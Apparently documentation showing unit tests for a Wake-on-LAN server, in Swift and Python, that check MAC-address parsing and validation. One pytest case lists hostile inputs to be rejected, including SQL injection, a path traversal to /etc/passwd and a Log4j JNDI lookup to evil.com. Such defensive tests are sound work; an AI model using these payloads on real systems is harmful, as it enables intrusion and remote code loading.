 ```swift
            XCTAssertNotNil(
                service.parseMACAddress(mac),
                "Should parse valid MAC format: \(mac)"
            )
        }
    }
    
    func testParseMACAddress_InvalidFormats() {
        // Arrange
        let service = WakeOnLANService()
        let invalidMACs = [
            "invalid",
            "AA:BB:CC:DD:EE",     // Too short
            "AA:BB:CC:DD:EE:FF:GG", // Too long
        ]
        
        // Act & Assert
        for mac in invalidMACs {
            XCTAssertNil(
                service.parseMACAddress(mac),
                "Should reject invalid MAC format: \(mac)"
            )
        }
    }
}
```

**Python Test Example (pytest):**
```python
import pytest
from wol_server import validate_mac, validate_ip, create_magic_packet

class TestWoLServer:
    
    def test_validate_mac_valid_formats(self):
        """Test MAC validation with various valid formats"""
        valid_macs = [
            "AA:BB:CC:DD:EE:FF",
            "aa-bb-cc-dd-ee-ff",
            "AABBCCDDEEFF",
            "aa:bb:cc:dd:ee:ff"
        ]
        
        for mac in valid_macs:
            assert validate_mac(mac), f"Should validate MAC: {mac}"
    
    def test_validate_mac_security_edge_cases(self):
        """Test MAC validation against security threats"""
        dangerous_inputs = [
            "'; DROP TABLE devices; --",    # SQL injection
            "../../../etc/passwd",          # Path traversal  
            "A" * 1000,                    # Buffer overflow
            "${jndi:ldap://evil.com/x}",   # Log4j injection
        ]
        
        for dangerous_input in dangerous_inputs:
            assert not validate_mac(dangerous_input), \
                f"Should reject dangerous input: {dangerous_input}"
```
